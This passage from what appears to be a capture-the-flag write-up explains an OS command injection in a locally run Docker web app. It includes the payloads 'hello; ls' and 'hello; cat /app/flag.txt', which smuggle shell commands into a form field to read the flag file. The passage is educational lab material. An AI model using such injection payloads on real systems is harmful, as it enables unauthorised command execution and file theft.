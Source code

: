 - The `subprocess.check_output()` function runs a shell command.
- **User input (`name`) is directly inserted into the shell command**, making it vulnerable to OS command injection.

 **Step 3: Deploy the Web Application Locally**

To test the vulnerability, we need to **build and run the application** using Docker.

**Build the Docker Container From INSIDE 'CTF101' Directory**
```bash
docker build -t ctf101 .
```

**Run the Container**
```bash
docker run -it -p 5000:5000 ctf101
```

Now, the application should be accessible at:
```bash
http://localhost:5000
```

 **Step 4: Exploit the Vulnerability**

**Testing for Command Injection**

Since the application takes user input and passes it directly to `echo`, we can **inject a shell command** using command separators like `;` or `&&`:
```bash
name=hello; ls
```

![[Pasted image 20250227125249.png]]

**Notice the listing of files in the current working directory.**

**Finding the Flag**

From the **Dockerfile**, we know the flag is in `/app/flag.txt`:
```dockerfile
COPY flag.txt /app/flag.txt
```

To read it, enter this payload in the form:
```bash
hello; cat /app/flag.txt
```

![[Pasted image 20250227133203.png]]

This should print the flag to the webpage on the WEBSITE spawned instance.

---

## Challenge 5: Science 100

### Problem Description
